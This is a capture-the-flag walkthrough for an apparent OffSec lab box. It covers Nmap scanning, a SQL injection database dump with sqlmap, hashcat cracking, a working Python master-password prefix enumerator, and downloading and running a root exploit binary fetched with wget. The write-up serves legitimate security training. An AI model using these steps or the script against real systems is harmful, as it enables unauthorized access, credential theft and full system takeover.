Offsec - sshcontrol - Walkthrough
Reconnaissance
We begin with an Nmap scan:

└─$ sudo nmap -p- TARGET_IPPorts 22 and 3000 are open. Port 22 is likely SSH, but we confirm both services with a version scan:

└─$ sudo nmap -p22,3000 -T4 -sV TARGET_IPEnumeration
Accessing port 3000 in a browser reveals the following page:

Account registration is not possible; the "Register" button simply reloads the page.
I attempted SQL injection using sqlmap. To do this, I routed traffic through Burp Suite and submitted test credentials:

I then saved the intercepted request:

And executed:
└─$ sudo sqlmap -r requestWhat this command does
- sqlmap: automates SQL injection detection and exploitation
- -r request: uses the saved HTTP request as input
This confirmed that PostgreSQL is in use:

Exploitation
Using sqlmap, I dumped the database via time-based SQL injection:
└─$ sudo sqlmap -r request --dbms=pgsql --dumpThis took some time but eventually revealed user credentials, including password hashes:

I identified the hash type (likely SHA-256) and attempted to crack it using hashcat. The first hash did not yield results, but a second set of credentials appeared:

This time, the hash was successfully cracked:
└─$ hashcat -m 1400 -a 0 hash.txt rockyou.txt
Using these credentials, I logged into the application:

The application allows adding an SSH public key, but requires a master password. According to the lab description, this password must be recovered via timing and response-pattern analysis.
While experimenting, I discovered that the application leaks information through its responses. Instead of relying purely on timing, I used this behavior to build a password enumerator:
Password enumerator (Python)
import requests
import string
URL = "http://192.168.248.89:3000/check-master-password"
COOKIES = {
"connect.sid": "s%3AWP1smRkRoNMz1yOP6w3xnYXW4X8QFvvL.0crO9CU%2F4ruT39RPSSoBpkq0o22Is%2F2b7%2BEV0NMTU0A"
}
HEADERS = {
"Content-Type": "application/x-www-form-urlencoded",
"User-Agent": "Mozilla/5.0"
}
CHARSET = string.ascii_letters + string.digits
def send(password):
r = requests.post(URL, headers=HEADERS, cookies=COOKIES,
data={"masterPassword": password})
return r.text
def is_prefix_valid(response):
return "Valid master password sequence" in response
def main():
password = ""
while True:
found = False
for c in CHARSET:
guess = password + c
response = send(guess)
if is_prefix_valid(response):
print(f"[+] Correct prefix: {guess}")
password += c
found = True
break
if not found:
print("[++] Found password: " + password)
break
if __name__ == "__main__":
main()
This script successfully recovered the master password:

Next, I generated an SSH key pair:
└─$ ssh-keygen -t ed25519The public key is stored in ~/.ssh/id_ed25519.pub:
└─$ cat /home/$USER/.ssh/id_ed25519.pubI copied and submitted the public key:

The key was accepted:

I then logged in via SSH:
└─$ ssh username@192.168.248.89This provided access to the system and the first flag:

Privilege Escalation
I used the recently disclosed copy-fail vulnerability affecting the su binary. By overwriting it with a crafted payload, privilege escalation to root is possible.
I downloaded the exploit binary:
└─$ wget https://github.com/badsectorlabs/copyfail-go/releases/download/1.2.0/copyfail-go_Linux_x86_64Then transferred it to the target:
└─$ scp copyfail-go_Linux_x86_64 username@192.168.248.89:/tmpAfter executing the exploit:

I obtained root access and retrieved the final flag:

Thank you for reading, I hope you learned something new!